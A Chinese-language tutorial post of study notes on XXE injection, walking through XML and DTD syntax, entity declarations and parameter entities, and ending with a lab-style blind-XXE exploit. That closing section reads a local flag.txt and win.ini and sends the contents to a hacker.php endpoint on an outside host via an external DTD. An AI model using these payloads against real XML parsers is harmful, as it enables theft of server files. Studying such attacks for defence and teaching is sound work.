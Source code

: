 # 安全牛XXE学习笔记

<div class="has-toc have-toc">
</div>

## 0x00 xml、dtd及blind xxe基础

XXE漏洞全称XML External Entity Injection，即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

XML 指可扩展标记语言（Extensible Markup Language）  
XML 被设计用来传输和存储数据。  
XML语言没有预定义的标签，允许作者定义自己的标签和自己的文档结构。

语法规则：  
XML 文档必须有一个根元素  
XML 元素都必须有一个关闭标签  
XML 标签对大小敏感  
XML 元素必须被正确的嵌套  
XML 属性值必须加引导

范例：

<pre class="wp-block-code"><code>&lt;?xml version="1.0" encoding="IS0-8859-1"?>
&lt;note>
&lt;to>George&lt;/to>
&lt;from>John&lt;/from>
&lt;heading>Reminder&lt;/heading>
&lt;body>Dont forget the meeting!&lt;/body>
&lt;/note></code></pre>

实体引用<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-223.png" alt="" class="wp-image-3204" width="539" height="244" /> </figure> 

DTD（文档类型定义）  
DTD（文档类型定义）的作用是定义XML 文档的合法构建模块。  
DTD 可以在XML 文档内声明，也可以外部引用。

**内部声明**：`<!DOCTYPE 根元素[元素声明]>`

<pre class="wp-block-code"><code>&lt;?xml version="1.0"?>
&lt;!DOCTYPE note&#91;
 &lt;!ELEMENT note    (to,from,heading,body)>
 &lt;!ELEMENT to      (#PCDATA)>
 &lt;!ELEMENT from    (#PCDATA)>
 &lt;!ELEMENT heading (#PCDATA)>
 &lt;!ELEMENT body    (#PCDATA)>
]>
&lt;note>
&lt;to>George&lt;/to>
&lt;from>John&lt;/from>
&lt;heading>Reminder&lt;/heading>
&lt;body>Don't forget the meeting!&lt;/body>
&lt;/note></code></pre>

PCDATA的意思是被解析的字符数据。PCDATA是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。文本中的标签会被当作标记来处理，而实体会被展开。

**外部声明**：`<!DOCTYPE 根元素SYSTEM "文件名">`

<pre class="wp-block-code"><code>&lt;?xml version="1.0"?>
&lt;!DOCTYPE note SYSTEM "note.dtd">
&lt;note>
&lt;to>George&lt;/to>
&lt;from>John&lt;/from>
&lt;heading>Reminder&lt;/heading>
&lt;body>Don't forget the meeting!&lt;/body>
&lt;/note></code></pre>

**DTD实体构建方式：内部实体声明** `<!ENTITY entity-name "entity-value">`

<pre class="wp-block-code"><code>&lt;?xml version="1.0"?>
&lt;!DOCTYPE mail&#91;
&lt;!ELEMENT mail (message)>
&lt;!ENTITY hacker "hacker's data">
]>
&lt;mail>
&lt;message>&hacker; &lt;/message>
&lt;/mail></code></pre>

**DTD实体构建方式：外部实体声明** `<!ENTITY` `entity-name SYSTEM "URI/URL">`

<pre class="wp-block-code"><code>&lt;?xml version="1.0"?>
&lt;!DOCTYPE mail&#91;
&lt;!ELEMENT mail (message)>
&lt;!ENTITY hacker SYSTEM "file:///C:/Windows/win.ini">
]>
&lt;mail>
&lt;message>&hacker; &lt;/message>
&lt;/mail></code></pre>

**外部声明默认协议及php扩展协议**<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-225.png" alt="" class="wp-image-3208" width="364" height="316" /></figure> 

**参数实体**

参数实体只用于DTD 和文档的内部子集中，XML的规范定义中，只有在DTD中才能引用参数实体. 参数实体的声明和引用都是以百分号%。并且参数实体的引用在DTD是理解解析的，替换文本将变成DTD的一部分。该类型的实体用“％”字符（或十六进制编码的％）声明，并且仅在经过解析和验证后才用于替换DTD中的文本或其他内容。

<pre class="wp-block-code"><code>&lt;?xml version="1.0" encoding="UTF-8"?>
&lt;!DOCTYPE root &#91;
&lt;!ELEMENT root (message)>
&lt;!ENTITY % param1 "&lt;!ENTITY internal 'http://xxx.com'>">
%param1;
]>
&lt;root>
&lt;message>&internal;&lt;/message>
&lt;/root></code></pre>

**简单利用**

<pre class="wp-block-code"><code>&lt;?xml version="1.0" encoding="UTF-8"?>
&lt;!DOCTYPE foo &#91;
&lt;!ELEMENT foo ANY >
&lt;!ENTITY % evil SYSTEM "file:////phpstudy/WwW/bull/xxe/xml/flag.txt" >
&lt;!ENTITY % xxe  SYSTEM "http://172.16.206.99/bull/xxe/xm1/dtd7_2.xml" >
%xxe;
%all;
]>
&lt;foo>&send;&lt;/foo></code></pre>
<pre class="wp-block-code"><code>&lt;!ENTITY % all "&lt;!ENTITY send SYSTEM 'http://172.16.206.99/class/xss_get_cookie/hacker.php?
cookie=%evil;'>"></code></pre>
